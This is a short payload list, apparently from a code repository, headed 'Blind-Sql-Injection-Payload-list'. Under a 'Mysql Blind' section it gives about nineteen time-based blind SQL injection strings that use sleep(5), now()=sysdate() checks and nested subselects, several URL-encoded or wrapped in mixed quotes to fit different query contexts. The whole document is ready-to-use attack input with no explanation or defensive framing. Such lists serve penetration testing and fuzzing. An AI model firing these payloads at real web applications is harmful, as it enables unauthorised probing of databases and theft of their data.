 # Blind-Sql-Injection-Payload-list

# Mysql Blind

0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(5*1),0))XOR'Z
if(now()=sysdate(),sleep(5),0)
'XOR(if(now()=sysdate(),sleep(5),0))XOR'
'XOR(if(now()=sysdate(),sleep(5*1),0))OR'
if(now()=sysdate(),sleep(5),0)/"XOR(if(now()=sysdate(),sleep(5),0))OR"/
if(now()=sysdate(),sleep(5),0)/*'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0))OR"*/
if(now()=sysdate(),sleep(5),0)/'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0) and 5=5)"/
%2c(select%20*%20from%20(select(sleep(5)))a)
(select(0)from(select(sleep(5)))v)
'%2b(select*from(select(sleep(5)))a)%2b'
(select*from(select(sleep(5)))a)
1'%2b(select*from(select(sleep(5)))a)%2b'
,(select * from (select(sleep(5)))a)
desc%2c(select*from(select(sleep(5)))a)
-1+or+1%3d((SELECT+1+FROM+(SELECT+SLEEP(5))A))
(select(0)from(select(sleep(5)))v)%2f'+(select(0)from(select(sleep(5)))v)+'"
(select(0)from(select(sleep(5)))v)%2f*'+(select(0)from(select(sleep(5)))v)+'"+(select(0)from(select(sleep(5)))v)+"*%2f
